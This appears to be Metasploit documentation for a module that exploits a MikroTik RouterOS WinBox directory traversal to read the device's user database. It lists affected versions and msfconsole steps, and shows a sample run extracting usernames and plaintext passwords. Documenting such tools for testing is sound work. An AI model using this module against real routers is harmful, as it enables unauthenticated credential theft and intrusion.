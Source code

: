 ## Vulnerable Application

MikroTik RouterOS allows unauthenticated remote attackers to read arbitrary files
through a directory traversal through the WinBox interface (typically port 8291).

Vulnerable versions of MikroTik RouterOS:

* (bugfix) 6.30.1-6.40.7
* (current) 6.29-6.42
* (RC) 6.29rc1-6.43rc3

### Adding Users

To add users to the MikroTik device, use the following commands:

Get the groups first

```
/user group print
```

Add a user

```
/user add name=[name] password=[password] group=[group]
```

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/gather/mikrotik_winbox_fileread`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should credentials.

## Options

## Scenarios

### Mikrotik Cloud Router RouterOS 6.40.4

```
msf5 > use auxiliary/gather/mikrotik_winbox_fileread 
msf5 auxiliary(gather/mikrotik_winbox_fileread) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf5 auxiliary(gather/mikrotik_winbox_fileread) > run

[*] Running for 1.1.1.1...
[*] 1.1.1.1 - Session ID: 54
[*] 1.1.1.1 - Requesting user database through exploit
[*] 1.1.1.1 - Exploit successful, attempting to extract usernames & passwords
[*] 1.1.1.1 - Extracted Username: "write" and password "write"
[*] 1.1.1.1 - Extracted Username: "read" and password "read"
[*] 1.1.1.1 - Extracted Username: "admin" and password ""
[*] 1.1.1.1 - Extracted Username: "user2" and password "password1"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
